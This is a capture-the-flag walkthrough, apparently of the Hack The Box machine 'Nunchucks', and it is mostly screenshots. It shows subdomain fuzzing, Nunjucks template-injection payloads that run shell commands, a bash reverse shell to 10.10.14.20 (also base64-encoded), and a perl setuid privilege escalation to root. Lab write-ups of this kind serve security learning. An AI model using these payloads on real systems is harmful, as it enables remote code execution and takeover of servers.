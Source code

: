 1. Run Nmap to discover any open ports and services from the web server.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3b7b1e08-e98c-4497-9520-1f112bb70c54)

2. Try to open the ip address on the browser and get a domain nunchuks.htb. Add to **/etc/hosts/** so we can open the website.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2004824b-ce1f-4e81-b032-03b5694d6474)

Website:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d4f64624-14ea-43cd-882b-7cdaaa998424)

3. Checking the Sign Up and Log In feature and can't use both of them.
Signup:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/85432824-3fef-4900-92b1-8b8eed99f263)

Login:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d2ddddb7-8d36-46b5-96d0-c720828e2f84)

4. Checking another website features and contents. In the footer, we found that 
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/2977a9df-af8d-4698-bc24-d9f76fafe823)

5. `wfuzz -u https://nunchucks.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -H "Host: FUZZ.nunchucks.htb"`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4f8cd75a-ca63-49c0-8cff-550ce3fb036e)

6. `wfuzz -u https://nunchucks.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -H "Host: FUZZ.nunchucks.htb" --hh 30587`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/28f5989e-71b7-4257-9394-780f84b122f0)

7.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e60ce229-8654-42f6-bcdc-6797d84481f0)

Website:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/37f1e264-4386-4eeb-bb4e-a72f5faf3b16)

8.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/270df8d4-f4d2-4757-b912-e22fabf99f97)

9.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/10ffb2b8-4c6b-4829-b01f-5e96c6dbb527)

10.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/36edf8ba-8383-4cb2-86db-b08aa8e204f3)

11. [Payload](https://github.com/geeknik/the-nuclei-templates/blob/main/node-nunjucks-ssti.yaml)

Payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('insert any bash command')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/f3db7daf-cf4c-4761-a941-849ba8a5cd67)

12. [tool](https://www.revshells.com/)

payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/10.10.14.20/777 0>&1"')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bbe97c82-70a3-433d-90cd-2084bedeed2a)

13. `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /home/david/user.txt')\")()}}@gmail.com`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/425014a2-35de-46ff-996e-afb60f374550)

14.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1fab502a-8d7b-44eb-bf45-018bab675c40)

Payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMC83NzcgMD4mMQo= | base64 -d > /home/david/payload.sh')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0251335b-6203-4b99-b504-b6e2b677ce0a)

Check:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/346a8d55-47e0-4946-b135-c902735d1b7d)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/778f5dd5-384a-4892-909a-78ab6fd35ec1)

15. `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash ~/payload.sh')\")()}}@gmail.com`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6d8354fd-304e-4a1e-81d2-759249212bc6)

Host:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/8818ce95-fbbf-4c19-b656-1a28599721e5)

16.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/42fc94ce-8421-4285-a47c-32ae4b69d5a0)

17.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/303fe797-ef49-4dcb-81ae-785804ae8d70)

18. [web](https://gtfobins.github.io/gtfobins/perl/#capabilities)

Checking perl location:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/09cb1ea2-5587-451a-86b9-0c4ffcc96e24)

Payload:
`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9e7e5996-ca7a-46a7-bfa6-c8cccb2feb87)

19.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/f07731f3-52e7-4185-9d6a-b6f9f57229fd)

20. `echo '#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";' > root.pl`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/05c7b034-7aab-4506-ae20-7a13e9f1a04c)

21.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d65db7ba-066e-434b-9423-40489e487a8a)

22.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/dc418505-95f3-4189-9d53-02b84c690307)






















